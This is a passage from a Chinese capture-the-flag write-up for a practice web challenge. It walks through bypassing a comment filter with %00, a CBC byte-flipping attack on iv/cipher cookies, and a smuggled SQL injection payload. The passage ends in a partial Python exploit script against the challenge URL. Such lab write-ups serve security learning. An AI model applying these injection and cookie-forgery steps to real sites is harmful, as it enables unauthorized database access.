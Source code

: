 但是 `#` 和 `--` 两种注释符被过滤了，考虑使用 `%00`。先提交：

```
id=1;%00
```

得到 `iv` 和 `cipher`，然后设置到 cookie 里并去掉参数 `id` 再次提交，显示 `Hello!rootzz`，说明注入成功。

这同时也说明，我们可以通过修改 `iv` 和 `cipher` 控制 `id`，而 `iv` 和 `cipher` 是没有过滤的，所以可以成功绕过 `id` 的过滤机制。具体如何修改，也就是 CBC 字节翻转攻击的具体过程可以参考 [我的这篇博客](https://signormercurio.me/post/BugkuWeb/) 中的最后一题。

例如，我们提交 `id=12`，序列化后分组如下：

```
Block 0: a:1:{s:2:"id";s:
Block 1: 2:"12";}
```

可以看到，我们翻转第 0 组的**第 4 字节（从 0 开始计数）**，即可控制 `id=12` 中的 `2` 了。再比如，我们提交 `id=0 2nion select * from ((select 1)a join (select 2)b join (select 3)c);`（显然这里我们可以用 `join` 替换逗号，并且想把 `2` 换成 `u` 来绕过检测），序列化后分组如下：

```
Block 0: a:1:{s:2:"id";s:
Block 1: 70:"0 2nion sele
Block 2: ct * from ((sele
Block 3: ct 1)a join (sel
Block 4: ect 2)b join (se
Block 5: lect 3)c);
```

这里要翻转的变成了**第 6 字节**，而如果 payload 长度大于等于 100，则需要翻转**第 7 字节**了。

此外，需要注意在 payload 末尾添加 `%00`。如果直接添加可能会被二次 URL 编码，因此可以用 `chr(0)` 来添加。完整脚本：

```python
import base64
import urllib
import requests
import re

def login(payload, i, old, new):
    url = r'http://ctf5.shiyanbar.com/web/jiandan/index.php'
    data = {'id': payload}
    r = requests.post(url=url, data=data)
    sc = r.headers['Set-Cookie']

    cipher = re.findall(r'cipher=(.*)', sc)[0]
    iv = re.findall(r'iv=(.*),', sc)[0]
    # print(cipher)
    # print(iv)

    cd = base64.b64decode(urllib.parse.unquote(cipher))
    ivd = base64.b64decode(urllib.parse.unquote(iv))

    ch = bytes([cd[i] ^ ord(new) ^ ord(old)])
    cd = cd[:i] + ch + cd[i+1:]
    cnew = urllib.parse.quote(base64.b64encode(cd))
    # print(cnew)

    cookie0 = {'iv': iv, 'cipher': cnew}
    r = requests.post(url=url, cookies=cookie0)
    plain = re.findall(r"base64_decode\('(.*)'\)", r.text)[0]
    pd = base64.b64decode(plain)

    block0 = 'a:1:{s:2:"id";s:'
    for i in range(16):
        ch = bytes([ivd[i] ^ pd[i] ^ ord(block0[i])]) # Using bytes([int]) here is important
        ivd = ivd[:i] + ch + ivd[i+1:]
    ivnew = urllib.parse.quote(base64.b64encode(ivd))
```